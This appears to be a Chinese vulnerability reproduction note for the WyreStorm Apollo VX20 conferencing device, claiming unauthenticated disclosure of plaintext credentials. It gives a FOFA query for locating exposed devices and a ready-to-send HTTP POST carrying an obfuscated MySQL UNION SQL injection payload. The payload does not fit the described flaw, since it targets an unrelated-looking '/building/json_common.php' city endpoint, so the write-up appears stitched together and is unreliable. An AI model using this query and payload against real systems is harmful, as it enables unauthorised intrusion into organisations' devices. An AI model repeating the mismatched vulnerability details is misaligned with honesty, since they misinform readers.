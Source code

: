 <a name="e6Em4"></a>
# 一、漏洞描述
```java
WyreStorm Apollo VX20是一款优质的音视频会议一体机，专为企业办公室和会议室空间设计。这款设备集成了摄像头、麦克风、扬声器及投屏功能，为企业办公和视频会议提供优质的视听体验。该系统存在信息泄露漏洞，未经授权的远程攻击者可以获取明文凭据。
```
<a name="YarwI"></a>
# 二、漏洞影响
```java
WyreStorm Apollo VX20 < 1.3.58
```
<a name="YpI0q"></a>
# 三、fofa搜索语法
```java
icon_hash="-893957814"
```
<a name="TNcUl"></a>
# 四、漏洞复现
```java
POST /building/json_common.php HTTP/1.1
Host: 192.168.86.128:8097
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 87
Accept: */*
Accept-Language: en
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

tfs=city` where cityId =-1 /*!50000union*/ /*!50000select*/1,2,md5(102103122) ,4#|2|333
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719271628550-8bed0fd8-746f-4d4b-8c9d-c37a8ed66e8c.png#clientId=ud521e60a-9dae-4&from=paste&height=121&id=u4b2f127f&originHeight=151&originWidth=1027&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=3797&status=done&style=none&taskId=ub8b80d47-32c7-4a17-94e4-8cc87d1e6fd&title=&width=821.6)


